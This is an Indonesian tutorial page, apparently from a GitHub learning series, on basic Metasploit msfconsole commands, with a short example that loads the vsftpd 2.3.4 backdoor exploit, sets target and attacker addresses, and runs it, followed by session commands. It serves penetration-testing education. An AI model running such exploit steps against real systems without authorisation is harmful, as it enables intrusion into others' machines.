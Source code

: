 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Antarmuka%20Metasploit%20Framework.md">Antarmuka Metasploit Framework</a>
</p>

# Perintah Dasar MSFconsole

## A. Apa Itu MSFconsole?

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan MSFconsole:

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar MSFconsole yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia. |
| `search <KEYWORD>` | Mencari `exploit`, `payload`, `auxiliary`, `dll`. |
| `use <NAMA_MODUL>` | Memilih modul tertentu untuk digunakan. |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih. |
| `show options` | Menampilkan parameter yang bisa diatur pada modul. |
| `set <PARAMETER> <NILAI>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`). |
| `unset <PARAMETER>`	| Menghapus nilai parameter yang telah diatur. |
| `show payloads	`| Menampilkan semua payload yang kompatibel. |
| `show exploits`	| Menampilkan semua exploit yang tersedia. |
| `show auxiliary` | Menampilkan modul bantu seperti scanner. |
| `exploit` atau `run` | Menjalankan modul exploit. |
| `back` | Kembali ke menu utama dari modul. |
| `exit` atau `quit` | Keluar dari msfconsole. |

## D. Contoh Penggunaan Sederhana:

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <IP_TARGET>
set LHOST <IP_ATTACKER>
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <ID>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <ID>` | Menghentikan session tertentu |

## Tips Tambahan
- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <ID>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Jenis-Jenis%20Modul%20di%20Metasploit%20Framework.md">Jenis-Jenis Modul di Metasploit Framework</a>
</p>
